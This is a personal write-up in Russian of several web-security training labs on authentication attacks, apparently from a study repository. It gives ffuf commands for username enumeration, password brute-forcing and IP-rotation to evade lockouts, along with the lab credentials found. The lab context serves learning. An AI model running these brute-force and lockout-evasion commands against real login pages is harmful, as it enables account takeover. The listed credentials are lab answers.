

# Authentication attacks

## 1. Lab: Username enumeration via different responses

бурпом угнал запрос, потом ffuf сначала подобрал юзернейм, потом пароль

asia:klaster
```
ffuf -request req.txt -request-proto https -w users.txt -fs 3140

ffuf -request req.txt -request-proto https -w pass.txt -fc 200
```

## 2. Lab: 2FA simple bypass

Просто вместо того, чтобы вводить 2fa перейти на /my-account.

## 3. Lab: Password reset broken logic

В форме отправки сброса пароля явно указывается ник того, кому пароль скинуть. Указываем там carlos и гг

## 4. Lab: Username enumeration via subtly different responses

Долго повозившись с регексами, сделал такой запрос в ffuf

```
ffuf -request req.txt -request-proto https -w users.txt -fr 'Invalid username or password\.'
```

Далее пароль (уже попроще)

azureuser:cheese

```
ffuf -request req.txt -request-proto https -w pass.txt -c
```


## 5. Lab: Username enumeration via response timing

Так как надо ротировать айпишник, чтоб не заблочиться, сгенерил список из 101 айпишника и засунул его питчфорком в ffuf.
Теперь для каждого юзернейма будет новый айпишник. Чем не хайп.

```
ffuf -request req.txt -request-proto https \
  -w users.txt:FUZZ -w ips_101.txt:IPFUZZ \
  -mode pitchfork -c  -ft '<150'
```

На никнейме `au` таймаутнулся, так что буду считать, что он мне и нужен (в пароль я вбивал 3000 символов)

Правильно введенный пароль стандартно редиректит, нашел его таким запросом

au:12345678

```
ffuf -request req.txt -request-proto https \
  -w pass.txt:FUZZ -w ips_101.txt:IPFUZZ \
  -mode pitchfork -c -fr 'You have made too many incorrect login attempts'
```

## 6. Lab: Broken brute-force protection, IP block

Так как механизм таков, что раз в несколько раз надо опять входить - опять сделал pitchfork,
только на этот раз просто сделал каждый второй юзер пасс - wiener:peter, и в выводе искал просто 
три синих подряд



```
ffuf -request req.txt -request-proto https \
  -w carlos_wiener_200.txt:USERFUZZ -w pass_brute.txt:PASSFUZZ \
  -mode pitchfork -t 1 -c
```

## 7. Lab: Username enumeration via account lock

Заметил, что на несуществующие юзернеймы нет блока по количеству попыток входа. Победа??

```
ffuf -request req.txt -request-proto https \
  -w users.txt:USERFUZZ -w empty.txt:PASSFUZZ \
  -mode clusterbomb -c -fs 3132
```

В empty 10 рандомных строк, так что каждый юзернейм 10 раз повторился. Фильтруя по обычному размеру ответа
я нашел, что в случае с юзернеймом argentina размер больше, а в сообщении находится `You have made too many incorrect login attempts`

Теперь перебираю пароли. Сделал фильтр на ошибку по таймауту и после нескольких прогонов заметил, что только один пароль каждый раз возвращается.

argentina:starwars

```
ffuf -request req.txt -request-proto https \
  -w pass.txt \
  -c -fr 'You have made too many incorrect login'
```
